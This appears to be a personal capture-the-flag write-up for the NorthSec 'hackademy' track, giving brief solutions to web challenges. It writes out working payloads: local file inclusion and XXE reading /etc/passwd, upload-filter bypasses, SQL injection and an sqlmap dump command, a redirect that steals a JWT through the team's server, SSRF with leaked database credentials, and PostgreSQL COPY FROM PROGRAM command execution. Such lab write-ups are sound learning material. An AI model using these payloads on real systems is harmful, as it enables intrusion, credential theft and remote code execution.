 ## hackademy-writeup ☠

Every year, in the NorthSec CTF, and every year, when I come face to face with the hackademy track, I just forget the basics.
This writeup is intended for my personal use in this same track next year (feel free to use this tho)

### Automatization 101
Check source code

### Automatization 102
Look at the robots.txt file

### Inclusion 101
Change the ```?page=welcome.php``` to ```/etc/passwd```

### Inclusion 102
This is an XXE, check the source code, then catch the request in burp, modify the body in the repeater for something like this:<br>
```<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY ext SYSTEM "file:///etc/passwd" >]><function><getConversation>&ext;</getConversation></function>```

(thanks lolkatz)

### Inclusion 103
PHP convert to Base64... add ```php://filter/convert.base64-encode/resource=index.php``` after the ```?page=```<br>
Decode the string

### Upload 101
Create a basic PHP script like ```<?php echo 'Hello World'; ?>``` and name it script.jpg.php (security only checks the first .xxx)

### Upload 102
Upload the script created in Upload 101 and catch the request in Burp Repeater and change the ```Content-type``` to ```image/jpeg```

### Upload 103
This step checks the file signature, force the PNG file signature ```89 50 4E 47 0D 0A 1A 0A``` in the first bytes of the script created earlier

### Upload 104
Same as upload 101 but change the name of the script to script.png.php3

### SQL 101
Kinda hard for a 101 track, but use sqlmap with this command:```sqlmap u "URL HERE" --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```

### SQL 102
Directly in the username field, enter the injection: ```' union SELECT '','',''--```

### Open Redirect 101
My team owns a small server on the CTF network, so we redirect the user there ```URL.ctf/?sub_url=http://shell.ctf```<br>
Look at the logs on the server, we can see his JWT token.<br>
Go to ```URL.ctf/?identity=(insert JWT)``` (reminder; the token is only valid for 20mins)

### Serialize 101
Look at the source code and change the WelcomeMessage function by the function that outputs the base64 string, GiveMeFlagPrettyPlease()<br>
This is the final payload:
```
<?php
    class Hackademy{
        private $call = "GiveMeFlagPrettyPlease";
    }   
    $serialized = serialize(new Hackademy());

    echo $serialized;
?>
```
I then take the output in a base64 encoder tool and use this encoded output in the URL parameter, and it gives me the flag :)

### Forgery 101
In the url input: ```file:///var/www/html/api/config.php```<br>
We got the first flag, but also some credentials for Forgery 102

### Forgery 102
URL: ```http://localhost:8080```<br>
Method: ```POST```<br>
Params: ```user=postgres&password=Let%26me%3Din&query=SELECT * FROM pg_tables```<br>
Then modify the params for ```user=postgres&password=Let%26me%3Din&query=SELECT * from flag.flag_numbersFoundWithPreviousCommand```

### Forgery 103
Different commands to try in the params:
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'ls /';
SELECT * FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'cat /flag_is_in_here_numbersFoundWithPreviousCommand.txt';
SELECT * FROM cmd_exec;
```
